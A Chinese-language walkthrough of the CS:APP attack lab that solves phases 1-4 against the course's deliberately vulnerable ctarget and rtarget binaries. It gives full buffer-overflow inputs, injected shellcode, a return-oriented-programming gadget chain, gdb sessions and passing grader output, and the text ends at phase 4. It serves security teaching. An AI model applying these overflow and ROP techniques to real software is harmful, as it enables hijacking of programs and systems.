






# 程序机器级表示之 attack lab

## 一、PHASE1

在第 1 部分中，我们要攻击的是 ctarget。利用缓冲区溢出，就是程序的栈中分配某个字符数组来保存一个字符串，而输入的字符串可以包含一些可执行代码的字节编码或者一个指向攻击代码的指针覆盖返回地址。那么就能直接实现直接攻击或者在执行 ret 指令后跳转到攻击代码。**对于 ctarget 和 rtarget 程序来说，均通过 getbuf 函数从标准输入中读取数据，并保存到 buf 数组中**。

```c{.line-numbers}
unsigned getbuf() {
    char buf[BUFFER_SIZE];
    Gets(buf);
    return 1;
}
```

在 ctarget 程序中，getbuf 函数是被 test 函数调用：

```c{.line-numbers}
void test() {
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}
```

在 phase1 中我们需要利用缓冲区溢出调用 touch1 函数：

```c{.line-numbers}
void touch1() {
    vlevel = 1; /* Part of validation protocol */
    printf("Touch1!: You called touch1()\n");
    validate(1);
    exit(0);
}
```

以下是 getbuf 函数的汇编代码，**`sub  $0x28,%rsp`** 将 %rsp 寄存器的值减去 40，然后复制到 %rdi 中作为参数（即 buf 数组的起始地址）传递给 Gets 函数。**<font color="red">因此可以确定指令 **`sub  $0x28,%rsp`** 执行后，%rsp 寄存器的值就是 buf 数组的起始地址</font>**。

```armasm{.line-numbers}
00000000004017c0 <touch1>:
  4017c0:	48 83 ec 08          	sub    $0x8,%rsp
  4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
  4017cb:	00 00 00 
  4017ce:	bf c5 30 40 00       	mov    $0x4030c5,%edi
  4017d3:	e8 e8 f4 ff ff       	call   400cc0 <puts@plt>
  4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
  4017dd:	e8 ab 04 00 00       	call   401c8d <validate>
  4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
  4017e7:	e8 54 f6 ff ff       	call   400e40 <exit@plt>

00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	call   401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	ret    
  4017be:	90                   	nop
  4017bf:	90                   	nop
```

接下来我们使用 gdb 调试一下 ctarget 程序中的 getbuf 函数。可以看到刚刚进入 getbuf 函数时，%rsp 寄存器的值为 **`0x5561dca0`**，buf 数组的起始地址为 **`0x5561dc78`**，接下来执行 **`sub $0x28,%rsp`** 指令后 %rsp 寄存器的值为 **`0x5561dc78`**，和 %rsp 原始值 **`0x5561dca0`** 的差为 40。因此 getbuf 栈帧的结构如下所示：

<div align="center">
  
</div>

```c{.line-numbers}
monica@xvm:~/csapp/csapplab/attacklab/target1$ gdb ./ctarget -q
Reading symbols from ./ctarget...
(gdb) set environment LD_PRELOAD=./printf.so
(gdb) set args -q
(gdb) b getbuf
Breakpoint 1 at 0x4017a8: file buf.c, line 12.
(gdb) r
Starting program: /home/monica/csapp/csapplab/attacklab/target1/ctarget -q
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Cookie: 0x59b997fa
Breakpoint 1, getbuf () at buf.c:12
12	buf.c: 没有那个文件或目录.
(gdb) p $rsp
$1 = (void *) 0x5561dca0
(gdb) p &buf
$2 = (char (*)[32]) 0x5561dc78
(gdb) n
14	in buf.c
(gdb) p $rsp
$3 = (void *) 0x5561dc78
(gdb) n
Type string:
```

由此就有了思路，我们只需要输入 48 个字符，前 40 个字节将 getbuf 的栈空间填满，最后一个字节将返回值覆盖为 0x4017c0 即 touch1 的地址，这样，在 getbuf 执行 retq 指令后，程序就会跳转执行 touch1 函数。

```c{.line-numbers}
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

接下来创建一个 txt 文档存储上述输入。并按照 HEX2RAW 工具的说明，在每个字节间用空格或回车隔开。接下来执行如下命令，**`./hex2raw < ctarget01.txt`** 是利用 hex2raw 工具将我们的输入看作字节级的十六进制表示进行转化，用来生成攻击二进制文件，并且写入到 ctarget01-raw.txt 文件中，接下来将此文件中的二进制位串写入到 ctarget 程序中。

接下来解释一下 **`LD_PRELOAD=./printf.so`** 的作用，**<font color="red">`LD_PRELOAD` 是 Linux 的环境变量，用于在程序启动时强制优先加载指定的动态链接库（.so 文件）</font>**。**`./printf.so`** 表示当前目录下的 printf.so 动态链接库文件。当设置此变量时，系统会在程序运行前加载该库，并覆盖系统中同名函数或符号的定义。若 **`printf.so`** 中定义了 printf() 函数，程序会优先调用该自定义函数，而非系统默认的 printf() 实现。使用这条命令因为 ctarget 程序中 libc 库中的 pritf 函数与 Ubuntu 22.04 版本不兼容。
 
```c{.line-numbers}
monica@xvm:~/csapp/csapplab/attacklab/target1$ ./hex2raw < ctarget01.txt > ctarget01-raw.txt 
monica@xvm:~/csapp/csapplab/attacklab/target1$ LD_PRELOAD=./printf.so ./ctarget < ctarget01-raw.txt -q
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00
```

最后可以看到 touch1() 函数调用成功。

## 二、PHASE2

在 PHASE2 中，我们需要使用缓冲区溢出攻击 ctarget 程序，调用 touch2 函数，并且需要将 cookie 值作为参数传入 touch2。

```c{.line-numbers}
void touch2(unsigned val) {
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

touch2 函数的反汇编代码如下所示，可以看到 touch2 函数的起始地址为 0x4017ec。

```c{.line-numbers}
00000000004017ec <touch2>:
  4017ec:	48 83 ec 08          	sub    $0x8,%rsp
  4017f0:	89 fa                	mov    %edi,%edx
  4017f2:	c7 05 e0 2c 20 00 02 	movl   $0x2,0x202ce0(%rip)        # 6044dc <vlevel>
  4017f9:	00 00 00 
  4017fc:	3b 3d e2 2c 20 00    	cmp    0x202ce2(%rip),%edi        # 6044e4 <cookie>
  401802:	75 20                	jne    401824 <touch2+0x38>
  401804:	be e8 30 40 00       	mov    $0x4030e8,%esi
  401809:	bf 01 00 00 00       	mov    $0x1,%edi
  40180e:	b8 00 00 00 00       	mov    $0x0,%eax
  401813:	e8 d8 f5 ff ff       	call   400df0 <__printf_chk@plt>
  401818:	bf 02 00 00 00       	mov    $0x2,%edi
  40181d:	e8 6b 04 00 00       	call   401c8d <validate>
  401822:	eb 1e                	jmp    401842 <touch2+0x56>
  401824:	be 10 31 40 00       	mov    $0x403110,%esi
  401829:	bf 01 00 00 00       	mov    $0x1,%edi
  40182e:	b8 00 00 00 00       	mov    $0x0,%eax
  401833:	e8 b8 f5 ff ff       	call   400df0 <__printf_chk@plt>
  401838:	bf 02 00 00 00       	mov    $0x2,%edi
  40183d:	e8 0d 05 00 00       	call   401d4f <fail>
  401842:	bf 00 00 00 00       	mov    $0x0,%edi
  401847:	e8 f4 f5 ff ff       	call   400e40 <exit@plt>
```

本题的解题思路为：首先，**<font color="red">通过字符串输入把 caller 的栈中储存的 test 返回地址改为注入代码片段的存放地址</font>**，根据上一节可知，buf 数组的起始地址为 **`0x5561dc78`**，test 函数的返回地址在内存的位置为 **`0x5561dca0`**，因此假设代码片段存放的地址为 **`0x5561dcc0`**（其他地址也可以）；然后，查看 cookie 值为 **`0x59b997fa`**，先将第一个参数寄存器 %rdi 修改为该值；在栈中压入 touch2 代码地址；最后执行 ret 指令时调用的返回地址也就是 touch2。此时具体的栈帧结构应该如下所示：

<div align="center">
  
</div>

具体汇编代码如下所示：

```c{.line-numbers}
movq  $0x59b997fa, %rdi
pushq $0x4017ec
ret
```

使用 **`gcc -static -nostdlib test02.s -o test`** 编译上述代码为二进制程序，接着使用 **`objdump -d test`** 进行反汇编。

```c{.line-numbers}
monica@xvm:~/csapp/csapplab/attacklab/target1$ gcc -static -nostdlib test02.s -o test
/usr/bin/ld: 警告: 无法找到项目符号 _start; 缺省为 0000000000401000
monica@xvm:~/csapp/csapplab/attacklab/target1$ objdump -d test

test：     文件格式 elf64-x86-64
Disassembly of section .text:

0000000000401000 <__bss_start-0x1000>:
  401000:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
  401007:	68 ec 17 40 00       	push   $0x4017ec
  40100c:	c3                   	ret 
```

接下来创建一个 txt 文档存储下述输入。

```c{.line-numbers}
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 dc 61 55 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
```

接下来将上述文本转换成的二进制位串作为 ctarget 程序的输入，得到的运行结果如下，成功调用 touch2 函数，并且将 cookie 作为参数传入最终打印出来。

```c{.line-numbers}
monica@xvm:~/csapp/csapplab/attacklab/target1$ ./hex2raw < ctarget02.txt > ctarget02-raw.txt 
monica@xvm:~/csapp/csapplab/attacklab/target1$ LD_PRELOAD=./printf.so ./ctarget < ctarget02-raw.txt -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 DC 61 55 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 
```

## 三、PHASE3

在 PHASE3 中，我们需要使用缓冲区溢出攻击 ctarget 程序，调用 touch2 函数，并且需要将 cookie 字符串（"**`0x59b997fa`**"）地址作为参数传入 touch2。

```c{.line-numbers}
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval) {
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}

void touch3(char *sval) {
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```

PHASE3 的思路和 PHASE2 相似，首先，**<font color="red">通过字符串输入把 caller 的栈中储存的 test 返回地址改为注入代码片段的存放地址</font>**，根据上一节可知，buf 数组的起始地址为 **`0x5561dc78`**，test 函数的返回地址在内存的位置为 **`0x5561dca0`**，因此假设代码片段存放的地址为 **`0x5561dcc0`**（其他地址也可以）；接下来将 cookie 字符串的地址作为参数传递给 %rdi，在栈中压入 touch3 代码地址；最后执行 ret 指令时调用的返回地址也就是 touch3。恶意代码如下所示：

```c{.line-numbers}
xorq  %rax,%rax
pushq %rax
movabsq $0x6166373939623935,%rax
pushq %rax
movq  %rsp,%rdi
pushq $0x004018fa
ret
```

使用 **`gcc -static -nostdlib test03.s -o test`** 编译上述代码为二进制程序，接着使用 **`objdump -d test`** 进行反汇编。

```c{.line-numbers}
monica@xvm:~/csapp/csapplab/attacklab/target1$ gcc -static -nostdlib test03.s -o test
/usr/bin/ld: 警告: 无法找到项目符号 _start; 缺省为 0000000000401000
monica@xvm:~/csapp/csapplab/attacklab/target1$ objdump -d test

test：     文件格式 elf64-x86-64
Disassembly of section .text:

0000000000401000 <__bss_start-0x1000>:
  401000:	48 31 c0             	xor    %rax,%rax
  401003:	50                   	push   %rax
  401004:	48 b8 35 39 62 39 39 	movabs $0x6166373939623935,%rax
  40100b:	37 66 61 
  40100e:	50                   	push   %rax
  40100f:	48 89 e7             	mov    %rsp,%rdi
  401012:	68 fa 18 40 00       	push   $0x4018fa
  401017:	c3                   	ret  
```

最后得到的输入如下所示：

```c{.line-numbers}
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 dc 61 55 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
48 31 c0 50 48 b8 35 39
62 39 39 37 66 61 50 48
89 e7 68 fa 18 40 00 c3
```

接下来将上述文本转换成的二进制位串作为 ctarget 程序的输入，得到的运行结果如下，成功调用 touch3 函数，并且将 cookie 作为参数传入最终打印出来。

```c{.line-numbers}
monica@xvm:~/csapp/csapplab/attacklab/target1$ ./hex2raw < ctarget03.txt > ctarget03-raw.txt 
monica@xvm:~/csapp/csapplab/attacklab/target1$ LD_PRELOAD=./printf.so ./ctarget < ctarget03-raw.txt -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 DC 61 55 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 48 31 C0 50 48 B8 35 39 62 39 39 37 66 61 50 48 89 E7 68 FA 18 40 00 C3 
```

## 四、PHASE4

### 1.ROP 介绍

在第二部分中，我们要攻击的是 rtarget，它的代码内容与第一部分基本相同，但是攻击它却比第一部分要难得多，主要是因为它采用了两种策略来对抗缓冲区溢出攻击：

- 栈随机化。这段程序分配的栈的位置在每次运行时都是随机的，这就使我们无法确定在哪里插入代码；
- 限制可执行代码区域。它限制栈上存放的代码是不可执行的；

在前面的攻击中，我们将恶意代码片段读取到 getbuf 函数栈帧中，并且获取其起始地址，执行 ret 指令时跳转到恶意代码片段继续执行。**但是当栈随机化后，getbuf 函数栈帧的起始地址发生了变化（每次运行时发生变化），也就无法再获取到栈帧中恶意代码片段的准确地址**。

此时，我们可以使用 ROP（return-oriented-programming）技术来进行攻击，**<font color="red">就是在已经存在的程序中找到特定的以 ret 结尾的指令序列为我们所用，称这样的代码段为 gadget</font>**，把要用到部分的地址压入栈中，每次 ret 后又会取出一个新的 gadget，于是这样就能形成一个程序链，实现我们的目的。如下所示：

<div align="center">
  
</div>

同时，有如下指令编码表：

<div align="center">
  
</div>

举例来说，假设 rtarget 有以下函数：

```c{.line-numbers}
void setval_210(unsigned *p) {
    *p = 3347663060U;
}
```

它的汇编代码字节级表示为：

```c{.line-numbers}
0000000000400f15 <setval_210>:
    400f15: c7 07 d4 48 89 c7   movl $0xc78948d4,(%rdi)
    400f1b: c3                  retq
```

查表可知，取其中一部分字节序列 **`48 89 c7`** 就表示指令 **`movq %rax, %rdi`**，这整句指令的地址为 **`0x400f15`**，于是从 **`0x400f18`** 开始的代码就可以变成下面这样，并且后面紧接着一个 retq 指令 c3，因此执行完这个 gadget 之后跳转到其它 gadget 执行。PHASE4 和 PHASE5 中需要使用到的 gadget 都可以在 farm.c 中可以找到。

```c{.line-numbers}
movq %rax, %rdi
ret
```

### 2.PHASE4 实验

PHASE4 实验也需要调用 touch2 函数，同时传入 cookie 作为参数。phase 2 中用到的注入代码如下所示，但是 **<font color="red">我们在 `farm.c` 中不可能找到等于 cookie 的 gadget 代码片段，因此可以考虑将 cookie 值提前保存在 getbuf 的函数栈中</font>**，再使用 pop 指令就可以将 cookie 保存到寄存器中。

```armasm{.line-numbers}
movq    $0x59b997fa, %rdi
pushq   $0x4017ec
ret
```

修改后的注入代码如下所示：

```armasm{.line-numbers}
popq  %rax
movq  %rax, %rdi
ret
```

使用 **`gcc -static -nostdlib test04.s -o test`** 编译上述代码为二进制程序，接着使用 **`objdump -d test`** 进行反汇编。

```c{.line-numbers}
test：     文件格式 elf64-x86-64
Disassembly of section .text:

0000000000401000 <__bss_start-0x1000>:
  401000:	58                   	pop    %rax
  401001:	48 89 c7             	mov    %rax,%rdi
  401004:	c3                   	ret  
```

通过查找，我们在 farm.c 中找到了 **`pop %rax`** 代码片段的十六进制编码 **`58`**，地址位于 **`4019ab`**，后续跟着一个 NOP 指令（十六进制编码为 **`90`**）和一个 ret 指令（十六进制编码为 **`c3`**），满足我们的需求。同时，也找到了 **`mov %rax,%rdi`** 代码片段的十六进制编码，地址位于 **`4019a2`**，后面也是紧跟一个 ret 指令。

```c{.line-numbers}
00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3 

00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	ret    
```

根据上面分析，改写后的注入代码如下所示：

```c{.line-numbers}
popq  %rax
nop
ret
movq  %rax, %rdi
ret
```

因此，getbuf 函数的栈帧如下所示，getbuf 执行 ret，从栈中弹出返回地址 **`0x4019ab`**，跳转到我们的 gadget01。gadget01 执行，将 cookie 弹出，赋值给 %rax，然后执行 ret，继续弹出返回地址 **`0x4019a2`**，跳转到 gadget2。gadget2 执行，将 cookie 值成功赋值给参数寄存器 %rdi，然后执行 ret，继续弹出返回地址 **`0x4017ec`**，跳转到 touch2。

<div align="center">
  
</div>

根据上图的栈帧，就能写出输入序列：

```c{.line-numbers}
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```

运行得到的结果如下所示，成功调用 touch2 函数，并且传入 cookie 作为参数。

```c{.line-numbers}
monica@xvm:~/csapp/csapplab/attacklab/target1$ cat rtarget01.txt | ./hex2raw | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
